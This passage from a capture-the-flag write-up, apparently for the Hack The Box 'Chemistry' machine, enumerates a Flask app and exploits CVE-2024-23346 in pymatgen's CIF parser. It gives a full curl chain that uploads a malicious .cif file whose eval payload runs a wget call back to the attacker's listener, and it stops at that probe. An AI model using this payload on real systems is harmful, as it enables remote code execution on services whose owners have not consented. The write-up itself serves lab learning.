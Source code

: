 We can see that [Werkzeug](https://werkzeug.palletsprojects.com/en/stable/) is running there, thus we are dealing with Python based web application. With little bit of web browsing around http://chemistry.htb:5000 we can see that we can:
* Create new account - http://chemistry.htb:5000/register
* Login using created account  - http://chemistry.htb:5000/login
* Upload `.cif` file - http://chemistry.htb:5000/upload
* View parsed `.cif` structure - http://chemistry.htb:5000/structure/$CIF_ID
* Delete structure - http://chemistry.htb:5000/delete_structure/$CIF_ID

Additional `ffuf` directory discovery does not yield any interesting findings, thus let's go down the `.cif` path and check if we could use it to upload some Python code.

CIF (Crystallographic Information File) format is a standard text file format used for storing and sharing crystallographic information. It is commonly used in structural chemistry, materials science, and crystallography to describe the atomic structure of molecules and crystals. Knowing that we could find what kind of CIF Python parsers libraries are out there and check if they have some vulnerabilities.

With quick Google [search](https://www.google.com/search?q=Python+CIF+parser+vulnerabilities) we can immediately spot [CVE-2024-23346](https://nvd.nist.gov/vuln/detail/CVE-2024-23346). In it's description we can read that one of [pymatgen](https://pymatgen.org/) methods:

> insecurely utilizes `eval()` for processing input, enabling execution of arbitrary code when parsing untrusted input

This sounds quite promissing, we could try to exploit this, of course if Python web application running on target is using this library. Further investigation leads to [interesting article](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) about this vulnerability with PoC `.cif` file. Let's adapt it to our needs and inject simple `wget` invocation which will make HTTP call to our server, if we will see this call in the logs it will proof that target is vulnerable.

Let's start HTTP server with Python `http.server` module.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

It's ready for inbonud traffic, so we will probe target with following one-liner:
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ curl -X POST -s http://chemistry.htb:5000/register -d "username=user&password=pass" > /dev/null && \
curl -c cookies.txt -X POST -s http://chemistry.htb:5000/login -d "username=user&password=pass" > /dev/null && \
curl -b cookies.txt -X POST -s http://chemistry.htb:5000/upload -F "file=@-;filename=probe.cif" <<EOF > /dev/null && \
CIF_ID=$(curl -b cookies.txt -s http://chemistry.htb:5000/dashboard | grep View | tail -n 1 | grep -oP '(?<=/structure/)[^"]+') > /dev/null && \
curl -b cookies.txt -s http://chemistry.htb:5000/structure/$CIF_ID > /dev/null && \
curl -X POST -b cookies.txt -s http://chemistry.htb:5000/delete_structure/$CIF_ID > /dev/null

data_probe
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1):8000");0,0,0'
_space_group_magn.name_BNS  "P  n'  m  a'  "

EOF
```
